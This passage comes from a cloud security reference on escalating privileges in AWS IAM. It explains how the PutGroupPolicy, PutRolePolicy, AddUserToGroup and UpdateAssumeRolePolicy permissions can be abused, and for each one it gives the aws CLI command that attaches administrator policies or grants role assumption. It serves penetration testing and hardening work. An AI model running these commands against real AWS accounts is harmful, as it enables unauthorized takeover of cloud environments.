 **Potential Impact:** Direct privesc to anything.

### `iam:PutGroupPolicy`

An attacker with the `iam:PutGroupPolicy` permission can escalate privileges by **creating or updating an inline policy for a group that they are a part of**, adding the permissions of that policy to the attacker.

```bash
aws iam put-group-policy --group-name <group_i_am_in> \
    --policy-name "group_inline_policy" \
    --policy-document file:///path/to/administrator/policy.json
```

Where the group is **a group the current user is in**.

**Potential Impact:** Direct privesc to anything.

### `iam:PutRolePolicy`, `sts:AssumeRole`

An attacker with the **`iam:PutRolePolicy`** permission can escalate privileges by **creating or updating an inline policy for a role that they have access to**, adding the permissions of that policy to the attacker.

An example command to exploit this method might look like this:

```bash
aws iam put-role-policy --role-name <role_i_can_assume> \
    --policy-name "role_inline_policy" \
    --policy-document file:///path/to/administrator/policy.json
```

Where the role is a role that the current user can temporarily assume with `sts:AssumeRole`.

**Potential Impact:** Direct privesc to anything.

### `iam:AddUserToGroup`

An attacker with the **`iam:AddUserToGroup`** permission can use it to **add themselves to an existing IAM Group** in the AWS account.

```bash
aws iam add-user-to-group --group-name <target_group> --user-name <my_username>
```

Where **target\_group has more/different privileges** than the attacker’s user account.

**Potential Impact:** Direct privesc to any group.

### `iam:UpdateAssumeRolePolicy`, `sts:AssumeRole`

An attacker with the `iam:UpdateAssumeRolePolicy` and `sts:AssumeRole` permissions would be able to **change the assume role policy document of any existing role** to allow them to assume that role.

```bash
aws iam update-assume-role-policy --role-name <role_to_assume> \
    --policy-document file:///path/to/assume/role/policy.json
```
